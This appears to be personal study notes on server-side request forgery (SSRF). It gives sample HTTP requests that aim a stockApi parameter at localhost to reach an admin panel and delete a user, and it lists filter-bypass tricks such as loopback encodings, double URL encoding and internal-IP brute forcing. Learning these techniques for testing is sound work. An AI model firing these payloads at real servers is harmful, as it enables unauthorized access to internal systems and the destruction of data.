 # SSRF

## Server-Side Request Forgery

Normal request:

```jsx
POST /product/stock HTTP/1.1
Host: vulnerable.com
Cookie: session=d4sfd6dfGgh4hvsh43sdshSv3dghd54gKd

stockApi= http://api.vulnerable.com
```

The attacker can make the server call the site with the server credentials

- You can make a SSRF by a parameter example: path=api.vulnerable.com
- changing to path=http://localhost:80

**Can use to reference himself**

- 127.0.0.1
- localhost
- 0.0.0.0
- 017700000001
- the site name

You can bruteforce the local IPs to find another endpoints example: 192.168.0.[0-255]

### **Bypass directory**

- **URL** encode or doble **URL** encode
- Put the local in upercase example: **127.0.0.1/ADMIN**
- Put a lor of slashes to pass filter example: **127.0.0.1////admin** or **127.0.0.1/../admin** or **127.0.0.1/./admin**
- Put the expected url example: **127.0.0.1/admin?api.vulnerable.com** or **127.0.0.1/admin/#api.vulnerable.com**
- **URL** expected + doble encoding example: **localhost:80%2523@api.vulnerable.com/admin**

    ---

    # Examples

    ### **Acess restricted area**

    Request:

    ```jsx
    POST /product/stock HTTP/1.1
    Host: vulnerable.com
    Cookie: session=d4sfd6dfGgh4hvsh43sdshSv3dghd54gKd

    stockApi= http://127.0.0.1:8080/admin
    ```

    Response:

    ```jsx
    <html>
    <body>
    <h1>The admin local area</h1>
    Wellcome admin
    </body>
    </html>
    ```

    ### Delete and edit things

    Request:

    ```jsx
    POST /product/stock HTTP/1.1
    Host: vulnerable.com
    Cookie: session=d4sfd6dfGgh4hvsh43sdshSv3dghd54gKd

    stockApi= http://127.0.0.1:8080/admin/delete?user=jorge
    ```

    Response:

    ```jsx
    <html>
    <body>
    Response 302 / 200
    Jorge has ben excluded
    </body>
    </html>
    ```